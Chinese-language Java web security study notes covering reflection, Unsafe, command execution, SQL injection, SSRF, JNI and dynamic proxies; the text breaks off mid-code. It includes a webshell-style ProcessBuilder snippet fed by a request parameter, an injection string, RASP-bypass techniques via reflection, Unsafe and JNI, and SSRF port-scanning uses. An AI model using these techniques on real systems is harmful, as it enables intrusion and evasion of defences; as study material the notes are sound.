


---
tags:
  - Java
  - Web Sec
comments: true
---

# 1 Java 基础

!!! note
    本文档主要介绍 Java Web 安全相关知识归纳总结，[学习路线参考](https://www.javasec.org/){target="_blank"}

    主要代码示例基于 JDK 7u80，部分代码采用 JDK 22.0.1

    推荐使用 Java Tools 中的[JEnv]([/CS/PL/Java/Jtool/Jtools](/CS/PL/Java/Jtool/Jtools/#jenv-for-windows)) 进行版本管理（也有对应的linux/MacOS版本）


## 1.1 ClassLoader 机制

JVM 架构图:

Java 类均要经过 ClassLoader 加载后才能运行，AppClassLoader 是默认的类加载器，如果类加载时我们不指定类加载器的情况下，默认会使用 AppClassLoader 加载类，`ClassLoader.getSystemClassLoader()` 返回的系统类加载器也是 AppClassLoader。


### Java 类加载方式

1. **隐式加载**：当程序创建对象实例或使用 `ClassName.MethodName()` 时，如果该对象的类还没有被加载，JVM 会自动调用类加载器加载该类。
2. **显式加载**：通过 Java 反射机制或 ClassLoader 来动态加载类。

???+ Example

    ```java
    // 反射加载TestHelloWorld示例
    Class.forName("xxx.TestHelloWorld");

    // ClassLoader加载TestHelloWorld示例
    this.getClass().getClassLoader().loadClass("xxx.TestHelloWorld");
    ```

`Class.forName("类名")` 默认会初始化被加载类的静态属性和方法，如果不希望初始化类可以使用 `Class.forName("类名", false, 类加载器)`，而 `ClassLoader.loadClass` 默认不会初始化类方法。

## 1.2 Java 反射
Java反射(`Reflection`)是Java非常重要的动态特性，通过使用反射我们不仅可以获取到任何类的成员方法(`Methods`)、成员变量(`Fields`)、构造方法(`Constructors`)等信息，还可以动态创建Java类实例、调用任意的类方法、修改任意的类成员变量值等。Java反射机制是Java语言的动态性的重要体现，也是Java的各种框架底层实现的灵魂。

### 获取Class对象

Java反射操作的是`java.lang.Class`对象，所以我们需要先想办法获取到Class对象，通常我们有如下几种方式获取一个类的Class对象：

1. `类名.class`，如:`cc.classloader.TestHelloWorld.class`。
2. `Class.forName("cc.classloader.TestHelloWorld")`。
3. `classLoader.loadClass("cc.classloader.TestHelloWorld");`

获取数组类型的Class对象需要特殊注意,需要使用Java类型的描述符方式，如下：

```java
Class<?> doubleArray = Class.forName("[D");//相当于double[].class
Class<?> cStringArray = Class.forName("[[Ljava.lang.String;");// 相当于String[][].class
```

**获取Runtime类Class对象代码片段：**

```java
String className     = "java.lang.Runtime";
Class  runtimeClass1 = Class.forName(className);
Class  runtimeClass2 = java.lang.Runtime.class;
Class  runtimeClass3 = ClassLoader.getSystemClassLoader().loadClass(className);
```

通过以上任意一种方式就可以获取`java.lang.Runtime`类的Class对象了，反射调用内部类的时候需要使用`$`来代替`.`,如`cc.Test`类有一个叫做`Hello`的内部类，那么调用的时候就应该将类名写成：`cc.Test$Hello`。

### 反射java.lang.Runtime

`java.lang.Runtime`因为有一个`exec`方法可以执行本地命令，所以在很多的`payload`中我们都能看到反射调用`Runtime`类来执行本地系统命令，通过学习如何反射`Runtime`类也能让我们理解反射的一些基础用法。

=== "不使用反射执行本地命令"

    !!! example

        ```java
        // 输出命令执行结果
        System.out.println(org.apache.commons.io.IOUtils.toString(Runtime.getRuntime().exec("whoami").getInputStream(), "UTF-8"));
        ```

    如上可以看到，我们可以使用一行代码完成本地命令执行操作，但是如果使用反射就会比较麻烦了，我们不得不需要间接性的调用`Runtime`的`exec`方法。

=== "反射Runtime执行本地命令代码片段"

    !!! example

        ```java
        // 获取Runtime类对象
        Class runtimeClass1 = Class.forName("java.lang.Runtime");

        // 获取构造方法
        Constructor constructor = runtimeClass1.getDeclaredConstructor();
        constructor.setAccessible(true);

        // 创建Runtime类示例，等价于 Runtime rt = new Runtime();
        Object runtimeInstance = constructor.newInstance();

        // 获取Runtime的exec(String cmd)方法
        Method runtimeMethod = runtimeClass1.getMethod("exec", String.class);

        // 调用exec方法，等价于 rt.exec(cmd);
        Process process = (Process) runtimeMethod.invoke(runtimeInstance, cmd);

        // 获取命令执行结果
        InputStream in = process.getInputStream();

        // 输出命令执行结果
        System.out.println(org.apache.commons.io.IOUtils.toString(in, "UTF-8"));
        ```

    反射调用`Runtime`实现本地命令执行的流程如下：

    1. 反射获取`Runtime`类对象(`Class.forName("java.lang.Runtime")`)。
    2. 使用`Runtime`类的Class对象获取`Runtime`类的无参数构造方法(`getDeclaredConstructor()`)，因为`Runtime`的构造方法是`private`的我们无法直接调用，所以我们需要通过反射去修改方法的访问权限(`constructor.setAccessible(true)`)。
    3. 获取`Runtime`类的`exec(String)`方法(`runtimeClass1.getMethod("exec", String.class);`)。
    4. 调用`exec(String)`方法(`runtimeMethod.invoke(runtimeInstance, cmd)`)。


### 反射创建类实例

在Java的**任何一个类都必须有一个或多个构造方法**，如果代码中没有创建构造方法那么在类编译的时候会自动创建一个无参数的构造方法。

**Runtime类构造方法示例代码片段:**

```java
public class Runtime {
   /** Don't let anyone else instantiate this class */
  private Runtime() {}

}
```

`Runtime`类的构造方法为private，所以我们没办法`new`一个`Runtime`类实例，但示例中我们借助了反射机制，修改了方法访问权限从而间接的创建出了`Runtime`对象。

`runtimeClass1.getDeclaredConstructor`和`runtimeClass1.getConstructor`都可以获取到类构造方法，区别在于后者无法获取到私有方法，所以一般在获取某个类的构造方法时候我们会使用前者去获取构造方法。如果构造方法有一个或多个参数的情况下我们应该在获取构造方法时候传入对应的参数类型数组，如：`clazz.getDeclaredConstructor(String.class, String.class)`。

如果我们想获取类的所有构造方法可以使用：`clazz.getDeclaredConstructors`来获取一个`Constructor`数组。

获取到`Constructor`以后我们可以通过`constructor.newInstance()`来创建类实例,同理如果有参数的情况下我们应该传入对应的参数值，如:`constructor.newInstance("admin", "123456")`。当我们没有访问构造方法权限时我们应该调用`constructor.setAccessible(true)`修改访问权限就可以成功的创建出类实例了。

### 反射调用类方法

`Class`对象提供了一个获取某个类的所有的成员方法的方法，也可以通过方法名和方法参数类型来获取指定成员方法。

**获取当前类所有的成员方法：**

```java
Method[] methods = clazz.getDeclaredMethods()
```

**获取当前类指定的成员方法：**

```java
Method method = clazz.getDeclaredMethod("方法名");
Method method = clazz.getDeclaredMethod("方法名", 参数类型如String.class，多个参数用","号隔开);
```

`getMethod`和`getDeclaredMethod`都能够获取到类成员方法，区别在于`getMethod`只能获取到`当前类和父类`的所有有权限的方法(如：`public`)，而`getDeclaredMethod`能获取到当前类的所有成员方法(不包含父类)。

**反射调用方法**

获取到`java.lang.reflect.Method`对象以后我们可以通过`Method`的`invoke`方法来调用类方法。

**调用类方法代码片段：**

```java
method.invoke(方法实例对象, 方法参数值，多个参数值用","隔开);
```

`method.invoke`的第一个参数必须是类实例对象，如果调用的是`static`方法那么第一个参数值可以传`null`，因为在java中调用静态方法是不需要有类实例的，因为可以直接`类名.方法名(参数)`的方式调用。

`method.invoke`的第二个参数不是必须的，如果当前调用的方法没有参数，那么第二个参数可以不传，如果有参数那么就必须严格的`依次传入对应的参数类型`。

### 反射调用成员变量

Java反射不但可以获取类所有的成员变量名称，还可以无视权限修饰符实现修改对应的值。

**获取当前类的所有成员变量：**

```java
Field fields = clazz.getDeclaredFields();
```

**获取当前类指定的成员变量：**

```java
Field field  = clazz.getDeclaredField("变量名");
```

`getField`和`getDeclaredField`的区别同`getMethod`和`getDeclaredMethod`。

**获取成员变量值：**

```java
Object obj = field.get(类实例对象);
```

**修改成员变量值：**

```java
field.set(类实例对象, 修改后的值);
```

同理，当我们没有修改的成员变量权限时可以使用: `field.setAccessible(true)`的方式修改为访问成员变量访问权限。

如果我们需要修改被`final`关键字修饰的成员变量，那么我们需要先修改方法

```java
// 反射获取Field类的modifiers
Field modifiers = field.getClass().getDeclaredField("modifiers");

// 设置modifiers修改权限
modifiers.setAccessible(true);

// 修改成员变量的Field对象的modifiers值
modifiers.setInt(field, field.getModifiers() & ~Modifier.FINAL);

// 修改成员变量值
field.set(类实例对象, 修改后的值);
```

### Java反射机制总结

Java反射机制是Java动态性中最为重要的体现，利用反射机制我们可以轻松的实现Java类的动态调用。Java的大部分框架都是采用了反射机制来实现的(如:`Spring MVC`、`ORM框架`等)，Java反射在编写漏洞利用代码、代码审计、绕过RASP方法限制等中起到了至关重要的作用。

## 1.3 sun.misc.Unsafe
`sun.misc.Unsafe`是Java底层API(仅限Java内部使用,利用时可通过反射调用)提供的一个神奇的Java类，Unsafe提供了非常底层的内存、CAS、线程调度、类、对象等操作。

### 获取Unsafe对象
Unsafe是Java内部API，外部是禁止调用的，在编译Java类时如果检测到引用了Unsafe类也会有禁止使用的警告：`Unsafe是内部专用 API, 可能会在未来发行版中删除`。
可以使用反射的方式去获取Unsafe类实例:

???+ example

    === "反射创建Unsafe实例"

        ```java
        // 获取Unsafe无参构造方法
        Constructor constructor = Unsafe.class.getDeclaredConstructor();

        // 修改构造方法访问权限
        constructor.setAccessible(true);

        // 反射创建Unsafe类实例，等价于 Unsafe unsafe1 = new Unsafe();
        Unsafe unsafe1 = (Unsafe) constructor.newInstance();
        ```

    === "反射获取成员变量"

        ```java
        // 反射获取Unsafe的theUnsafe成员变量
        Field theUnsafeField = Unsafe.class.getDeclaredField("theUnsafe");

        // 反射设置theUnsafe访问权限
        theUnsafeField.setAccessible(true);

        // 反射获取theUnsafe成员变量值
        Unsafe unsafe = (Unsafe) theUnsafeField.get(null);
        ```

<div id="AllocaInstance"></div>

### allocateInstance无视构造方法创建类实例

???+ example

    ```java
    Classname test = (Classname) unsafe1.allocateInstance(Classname.class);
    ```

Google的GSON库在JSON反序列化的时候就使用这个方式来创建类实例，在渗透测试中也会经常遇到这样的限制，比如RASP限制了`java.io.FileInputStream`类的构造方法导致我们无法读文件或者限制了`UNIXProcess/ProcessImpl`类的构造方法导致我们无法执行本地命令等。

### defineClass直接调用JVM创建类对象

如果ClassLoader被限制，我们可以使用Unsafe的defineClass方法来实现通过字节码向JVM中注册类。
`public native Class defineClass(String var1, byte[] var2, int var3, int var4);`
`public native Class<?> defineClass(String var1, byte[] var2, int var3, int var4, ClassLoader var5, ProtectionDomain var6);`

???+ example

    === "普通方法"

        ```java
        // 使用Unsafe向JVM中注册cc.classloader.TestHelloWorld类
        Class helloWorldClass = unsafe1.defineClass(TEST_CLASS_NAME, TEST_CLASS_BYTES, 0, TEST_CLASS_BYTES.length);
        ```

    === "类加载器和保护域"

        ```java
        // 获取系统的类加载器
        ClassLoader classLoader = ClassLoader.getSystemClassLoader();

        // 创建默认的保护域
        ProtectionDomain domain = new ProtectionDomain(
            new CodeSource(null, (Certificate[]) null), null, classLoader, null
        );

        // 使用Unsafe向JVM中注册cc.classloader.TestHelloWorld类
        Class helloWorldClass = unsafe1.defineClass(
            TEST_CLASS_NAME, TEST_CLASS_BYTES, 0, TEST_CLASS_BYTES.length, classLoader, domain
        );
        ```
    
    Unsafe还可以通过defineAnonymousClass方法创建内部类，此处暂不演示

!!! warning 

    这个实例仅适用于Java 8以前的版本，如在Java 8中使用应调用需要传类加载器和保护域的方法。<br/>
    Java 11开始Unsafe类移除了`defineClass`方法(`defineAnonymousClass`方法还在)。

## 1.4 Java 文件系统
[Todo](/todo)

## 1.5 本地命令执行

Java原生提供了对本地系统命令执行的支持，黑客通常会RCE或者WebShell来执行系统终端命令控制服务器

### Runtime 命令执行

在Java中我们通常会使用java.lang.Runtime类的exec方法来执行本地系统命令。

**Runtime.exec(xxx)调用链如下:**

```java
java.lang.UNIXProcess.<init>(UNIXProcess.java:247)
java.lang.ProcessImpl.start(ProcessImpl.java:134)
java.lang.ProcessBuilder.start(ProcessBuilder.java:1029)
java.lang.Runtime.exec(Runtime.java:620)
java.lang.Runtime.exec(Runtime.java:450)
java.lang.Runtime.exec(Runtime.java:347)
org.apache.jsp.runtime_002dexec2_jsp._jspService(runtime_002dexec2_jsp.java:118)
```

通过观察整个调用链我们可以清楚的看到exec方法并不是命令执行的最终点，执行逻辑大致是：

1. Runtime.exec(xxx)
2. java.lang.ProcessBuilder.start()
3. new java.lang.UNIXProcess(xxx)
4. UNIXProcess构造方法中调用了forkAndExec(xxx) native方法。
5. forkAndExec调用操作系统级别fork->exec(*nix)/CreateProcess(Windows)执行命令并返回fork/CreateProcess的PID。

!!! tips
    Runtime和ProcessBuilder并不是程序的最终执行点

如果系统对runtime有相应检测防护机制，可以通过反射来绕过检测

### ProcessBuilder命令执行

注意到 Runtime.exec会调用ProcessBuilder.start()，所以我们可以直接使用ProcessBuilder来执行命令。

???+ example

    ```java
    InputStream in = new ProcessBuilder(request.getParameterValues("cmd")).start().getInputStream();
    ```

    输入请求`http://localhost:8080/process_builder.jsp?cmd=/bin/sh&cmd=-c&cmd=cd%20/Users/;ls%20-la`

### UNIXProcess/ProcessImpl

UNIXProcess和ProcessImpl可以理解本就是一个东西，因为在JDK9的时候把UNIXProcess合并到了ProcessImpl当中。ProcessImpl其实就是最终调用native执行系统命令的类，这个类提供了一个叫forkAndExec的native方法，如方法名所述主要是通过fork&exec来执行本地系统命令。

{loading=lazy}

### JNI命令执行

Java可以通过JNI的方式调用动态链接库，只需要在动态链接库中写本地命令执行即可

## 1.6 JDBC

### JDBC SQL 注入

本章节只讨论基于 JDBC 查询的 SQL 注入，暂不讨论基于 ORM 实现的框架注入，也不会过多的讨论注入的深入用法、函数等

#### SQL 注入原理

Java 代码片段如下:

??? note "Code"

    ```java
    // 获取用户传入的用户名
    String user = request.getParameter("user");

    // 定义最终执行的SQL语句，这里会将用户从请求中传入的host字符串拼接到最终的SQL
    // 语句当中，从而导致了SQL注入漏洞。
    String sql = "select host,user from mysql.user where user = '" + user + "'";

    // 创建预编译对象
    PreparedStatement pstt = connection.prepareStatement(sql);

    // 执行SQL语句并获取返回结果对象
    ResultSet rs = pstt.executeQuery();
    ```

如上示例程序，我们可以传入 `root' union select 1;--+` 去闭合 SQL 语句，实现注入

具体利用方式 PHP SQL 注入一致，此处不做介绍。

#### SQL 注入防御

通常情况下我们可以使用以下方式来防御 SQL 注入攻击：

1. 转义用户输入的特殊字符或对用户输入的数据进行过滤。
2. 限制用户传入的数据类型，如预期传入的是数字，那么使用 `Integer.parseInt()` 转换为数字。
3. 使用 `PreparedStatement` 预编译 SQL 语句，预编译的 SQL 语句会在执行前进行编译，从而避免了 SQL 注入攻击。

#### PreparedStatement SQL 预编译查询

将上面存在注入的 Java 代码改为 ? 占位的方式即可实现 SQL 预编译查询。
示例代码如下：

??? note "Code"

    ```java
    // 获取用户传入的用户名
    String id = request.getParameter("id");

    // 定义最终执行的SQL语句，这里会将用户从请求中传入的host字符串拼接到最终的SQL
    String sql = "select id, username from sys_user where id =? ";

    // 创建预编译对象
    PreparedStatement pstt = connection.prepareStatement(sql);

    // 设置参数
    pstt.setObject(1, id);

    // 执行SQL语句并获取返回结果对象
    ResultSet rs = pstt.executeQuery();
    ```

#### JDBC 预编译

JDBC 预编译查询分为客户端预编译和服务器端预编译，对应的 URL 配置项是 `:useServerPrepStmts`，当 `useServerPrepStmts` 为 false 时使用客户端(驱动包内完成 SQL 转义)预编译，`useServerPrepStmts` 为 true 时使用数据库服务器端预编译。

??? note "Code"

    ```java
    String sql = "select host,user from mysql.user where user = ? ";
    PreparedStatement pstt = connection.prepareStatement(sql);
    pstt.setObject(1, user);
    ```

    === "服务器端预编译"

        

    === "客户端预编译"

        

对应的 Mysql 客户端驱动包预编译代码在 com.mysql.jdbc.PreparedStatement 类的 setString 方法，如下：


预编译前的值为 root', 预编译后的值为'root\''

## 1.7 URLConnection

Java 抽象出来了一个 `URLConnection` 类，它用来表示应用程序以及与 URL 建立通信连接的所有类的超类，通过 URL 类中的 `openConnection` 方法获取到 `URLConnection` 的类对象。

`URLConnection` 支持的协议可以在 `sun.net.www.protocol` 包下找到(jdk_17.0.11)
{width=30%}

其中每个协议都有一个 Handle, Handle 定义了这个协议如何去打开一个连接。

使用 URL 发起一个简单的请求:

??? note "Code"

    ```java
    public class URLConnectionDemo {

        public static void main(String[] args) throws IOException {
            URL url = new URL("https://www.baidu.com");

            // 打开和url之间的连接
            URLConnection connection = url.openConnection();

            // 设置请求参数
            connection.setRequestProperty("user-agent", "javasec");
            connection.setConnectTimeout(1000);
            connection.setReadTimeout(1000);
            ...

            // 建立实际连接
            connection.connect();

            // 获取响应头字段信息列表
            connection.getHeaderFields();

            // 获取URL响应内容
            StringBuilder response = new StringBuilder();
            BufferedReader in = new BufferedReader(
                    new InputStreamReader(connection.getInputStream()));
            String line;

            while ((line = in.readLine()) != null) {
                response.append("/n").append(line);
            }

            System.out.print(response.toString());
        }
    }
    ```

### SSRF

> SSRF(Server-side Request Forge, 服务端请求伪造)。 由攻击者构造的攻击链接传给服务端执行造成的漏洞，一般用来在外网探测或攻击内网服务。

服务端提供了可以从其他服务器获取资源的功能，然而并没有对用户的输入以及发起请求的 url 进行过滤&限制，形成了 SSRF 漏洞。
通常 ssrf 容易出现的功能点如下面几种场景:

- 抓取用户输入图片的地址并且本地化存储
- 从远程服务器请求资源
- 对外发起网络请求
- ...

Java 中 ssrf 漏洞对使用不同类发起的 url 请求有所区别，如果是 URLConnection|URL 发起的请求，那么对于上文中所提到的所有 protocol 都支持，但是如果经过二次包装或者其他的一些类发出的请求，比如:

- HttpURLConnection
- HttpClient
- Request
- okhttp
- ...

那么只支持发起 http|https 协议，否则会抛出异常。
如果传入 url 端口存在，则会返回网页源码，如果端口提供非 web 服务，则会爆出 `Invalid Http response` 或 `Connection reset` 异常，通过对异常的捕获可以探测内网所有的端口服务。

java 中默认对(http|https)做了一些事情，比如:

<div class="annotate" markdown>

- 默认启用了透明 NTLM 认证(1)
- 默认跟随跳转

</div>

1. [《Ghidra 从 XXE 到 RCE》](https://xlab.tencent.com/cn/2019/03/18/ghidra-from-xxe-to-rce/){target="_blank"} (To be read)

**默认跟随跳转** 其中有一个坑点



它会对跟随跳转的 url 进行协议判断，所以 Java 的 SSRF 漏洞利用方式整体比较有限:

- 利用 file 协议读取文件内容（仅限使用 URLConnection|URL 发起的请求）
- 利用 http 进行内网 web 服务端口探测
- 利用 http 进行内网非 web 服务端口探测(如果将异常抛出来的情况下)
- 利用 http 进行 ntlmrelay 攻击(仅限 HttpURLConnection 或者二次包装 HttpURLConnection 并未复写 AuthenticationInfo 方法的对象)

## 1.8 JNI 安全基础

Java Native Interface (JNI) 是 Java 与本地代码交互的一种技术。Java 语言是基于 C 语言实现的，Java 底层的很多 API 都是通过 JNI 来实现的。通过 JNI 接口 C/C++ 和 Java 可以互相调用(存在跨平台问题)。Java 可以通过 JNI 调用来弥补语言自身的不足(代码安全性、内存操作等)。

#### JNI-定义 native 方法

首先在 Java 中如果想要调用 `native` 方法, 那么需要在类中先定义一个 `native` 方法。

???+ Example

    ```java
    package cc.colemak;

    public class TestJNI {
        public static native String exec(String cmd);
    }
    ```

如上示例代码，我们使用 `native` 关键字定义一个类似于接口的方法

#### JNI-生成类头文件

如上，我们已经编写好了 TestJNI.java，现在我们需要编译并生成 c 语言头文件。

`javac -cp . TestJNI.java -h .`

编译完成后会在当前目录下生成 `TestJNI.class` 和 `cc_colemak_TestJNI.h`。

??? note "**cc_colemak_TestJNI.h**"

    ```c
    /* DO NOT EDIT THIS FILE - it is machine generated */
    #include <jni.h>
    /* Header for class cc_colemak_TestJNI */

    #ifndef _Included_cc_colemak_TestJNI
    #define _Included_cc_colemak_TestJNI
    #ifdef __cplusplus
    extern "C" {
    #endif
    /*
    * Class:     cc_colemak_TestJNI
    * Method:    exec
    * Signature: (Ljava/lang/String;)Ljava/lang/String;
    */
    JNIEXPORT jstring JNICALL Java_cc_colemak_TestJNI_exec
    (JNIEnv *, jclass, jstring);

    #ifdef __cplusplus
    }
    #endif
    #endif
    ```

#### JNI-基础数据类型
需要特别注意的是 Java 和 JNI 定义的类型需要转换(1)才能相互使用
{ .annote }

1. [jni 中 java 与原生代码通信规则](https://blog.csdn.net/qq_25722767/article/details/52557235){target="_blank"}

参考如下类型对照表:

| Java 类型 | JNI 类型 | C/C++类型      | 大小         |
| :-------- | :------- | :------------- | :----------- |
| Boolean   | Jblloean | unsigned char  | 无符号 8 位  |
| Byte      | Jbyte    | char           | 有符号 8 位  |
| Char      | Jchar    | unsigned short | 无符号 16 位 |
| Short     | Jshort   | short          | 有符号 16 位 |
| Int       | Jint     | int            | 有符号 32 位 |
| Long      | Jlong    | long long      | 有符号 64 位 |
| Float     | Jfloat   | float          | 32 位        |
| Double    | Jdouble  | double         | 64 位        |

#### JNI-编写C/C++本地命令执行实现

接下来使用C/C++编写函数的最终实现代码。

??? note "**cc_colemak_TestJNI.cpp**"

    ```cpp
    #include <iostream>
    #include <stdlib.h>
    #include <cstring>
    #include <string>
    #include "cc_colemak_TestJNI.h"

    using namespace std;

    JNIEXPORT jstring

    JNICALL Java_cc_colemak_TestJNI_exec
            (JNIEnv *env, jclass jclass, jstring str) {

        if (str != NULL) {
            jboolean jsCopy;
            // 将jstring参数转成char指针
            const char *cmd = env->GetStringUTFChars(str, &jsCopy);

            // 使用popen函数执行系统命令
            FILE *fd  = popen(cmd, "r");

            if (fd != NULL) {
                // 返回结果字符串
                string result;

                // 定义字符串数组
                char buf[128];

                // 读取popen函数的执行结果
                while (fgets(buf, sizeof(buf), fd) != NULL) {
                    // 拼接读取到的结果到result
                    result +=buf;
                }

                // 关闭popen
                pclose(fd);

                // 返回命令执行结果给Java
                return env->NewStringUTF(result.c_str());
            }

        }

        return NULL;
    }
    ```

- Linux编译：
  ```g++ -fPIC -I"$JAVA_HOME/include" -I"$JAVA_HOME/include/darwin" -shared -o libcmd.jnilib cc_colemak_TestJNI.cpp```
- Windows编译：
  ```g++ -I"%JAVA_HOME%\include" -I"%JAVA_HOME%\include\win32" -shared -o cmd.dll cc_colemak_TestJNI.cpp```

编译参考[Java Programming Tutorial Java Native Interface (JNI)](https://www3.ntu.edu.sg/home/ehchua/programming/java/JavaNativeInterface.html){target="_blank"}

??? node "cc.colemak.TestJNIcmd"

    ```java
    package cc.colemak;

    import java.io.File;
    import java.lang.reflect.Method;

    public class TestJNIcmd {

        private static final String COMMAND_CLASS_NAME = "cc.colemak.TestJNI";
        /**
         * JDK8u191 编译的cc.colemak.TestJNI 类字节码
         */
        private static final byte[] COMMAND_CLASS_BYTES = new byte[]{
                -54,-2,-70,-66,0,0,0,52,0,15,10,0,3,0,12,7,0,13,7,0,14,1,0,6,60,105,110,105,116,62,1,0,3,40,41,86,1,0,4,67,111,100,101,1,0,15,76,105,110,101,78,117,109,98,101,114,84,97,98,108,101,1,0,4,101,120,101,99,1,0,38,40,76,106,97,118,97,47,108,97,110,103,47,83,116,114,105,110,103,59,41,76,106,97,118,97,47,108,97,110,103,47,83,116,114,105,110,103,59,1,0,10,83,111,117,114,99,101,70,105,108,101,1,0,12,84,101,115,116,74,78,73,46,106,97,118,97,12,0,4,0,5,1,0,18,99,99,47,99,111,108,101,109,97,107,47,84,101,115,116,74,78,73,1,0,16,106,97,118,97,47,108,97,110,103,47,79,98,106,101,99,116,0,33,0,2,0,3,0,0,0,0,0,2,0,1,0,4,0,5,0,1,0,6,0,0,0,29,0,1,0,1,0,0,0,5,42,-73,0,1,-79,0,0,0,1,0,7,0,0,0,6,0,1,0,0,0,3,1,9,0,8,0,9,0,0,0,1,0,10,0,0,0,2,0,11
        };

        public static void main(String[] args) {
            String cmd = "ipconfig";// 定于需要执行的cmd

            try {
                ClassLoader loader = new ClassLoader(TestJNIcmd.class.getClassLoader()) {
                    @Override
                    protected Class<?> findClass(String name) throws ClassNotFoundException {
                        try {
                            return super.findClass(name);
                        } catch (ClassNotFoundException e) {
                            return defineClass(COMMAND_CLASS_NAME, COMMAND_CLASS_BYTES, 0, COMMAND_CLASS_BYTES.length);
                        }
                    }
                };

                // 测试时候换成自己编译好的lib路径
                File libPath = new File("cmd.dll");

                // load命令执行类
                Class commandClass = loader.loadClass("cc.colemak.TestJNI");

                // 可以用System.load也加载lib也可以用反射ClassLoader加载,如果loadLibrary0
                // 也被拦截了可以换java.lang.ClassLoader$NativeLibrary类的load方法。
    //		    System.loadLibrary("D:\\work\\java\\TestJNI\\src\\main\\java\\cc\\colemak\\cmd");
                Method loadLibrary0Method = ClassLoader.class.getDeclaredMethod("loadLibrary0", Class.class, File.class);
                loadLibrary0Method.setAccessible(true);
                loadLibrary0Method.invoke(loader, commandClass, libPath);

                String content = (String) commandClass.getMethod("exec", String.class).invoke(null, cmd);
                System.out.println(content);
            } catch (Exception e) {
                e.printStackTrace();
            }
        }

    }
    ```

编译运行结果如下：


## 1.9 Java 动态代理

Java反射提供了一种类动态代理机制，可以通过代理接口实现类来完成程序无侵入式扩展。
Java动态代理主要使用场景：

- 统计方法执行所耗时间。
- 在方法执行前后添加日志。
- 检测方法的参数或返回值。
- 方法访问权限控制。
- 方法Mock测试。

### 动态代理API

在java的`java.lang.reflect`包下提供了一个`Proxy`类和一个`InvocationHandler`接口，通过这个类和接口可以生成动态代理类和动态代理对象。
Proxy类中定义的方法如下：

???+ note "code"

    ```java
    public class Proxy implements java.io.Serializable {
        ...
        //获取动态代理处理类对象
        public static InvocationHandler getInvocationHandler(Object proxy)

        //创建动态代理类实例
        public static Object newProxyInstance(ClassLoader loader, Class<?>[] interfaces, InvocationHandler h)

        //创建动态代理类
        public static Class<?> getProxyClass(ClassLoader loader, Class<?>... interfaces)

        //检测某个类是否是动态代理类
        public static boolean isProxyClass(Class<?> cl)

        //向指定的类加载器中定义一个类对象
        private static native Class defineClass0(ClassLoader loader, String name, byte[] b, int off, int len)
    }

`java.lang.reflect.InvocationHandler`接口用于调用`Proxy`类生成的代理类方法，该类只有一个`invoke`方法。

???+ note "code"

    ```java
    public interface InvocationHandler {
        //代理类调用方法时会调用该方法
       Object  invoke(Object  proxy, Method  method, Object [] args) throws Throwable 
    }
    ```

    参考官方文档：[InvocationHandler](https://docs.oracle.com/javase/8/docs/api/java/lang/reflect/InvocationHandler.html){target="_blank"}

### 使用java.lang.reflect.Proxy动态创建类对象

??? note "code"

    ```java
    package cc.dynproxy;

    import java.lang.reflect.Method;
    import java.lang.reflect.Proxy;

    import static cc.colemak.TestJNIcmd.COMMAND_CLASS_BYTES;
    import static cc.colemak.TestJNIcmd.COMMAND_CLASS_NAME;

    public class ProxyDefineClassTest {

        public static void main(String[] args) {
            // 获取系统的类加载器，可以根据具体情况换成一个存在的类加载器
            ClassLoader classLoader = ClassLoader.getSystemClassLoader();

            try {
                // 反射java.lang.reflect.Proxy类获取其中的defineClass0方法
                Method method = Proxy.class.getDeclaredMethod("defineClass0", new Class[]{
                        ClassLoader.class, String.class, byte[].class, int.class, int.class
                });

                // 修改方法的访问权限
                method.setAccessible(true);

                // 反射调用java.lang.reflect.Proxy.defineClass0()方法，动态向JVM注册
                // cc.classloader.TestHelloWorld类对象
                Class helloWorldClass = (Class) method.invoke(null, new Object[]{
                        classLoader, COMMAND_CLASS_NAME, COMMAND_CLASS_BYTES, 0, COMMAND_CLASS_BYTES.length
                });

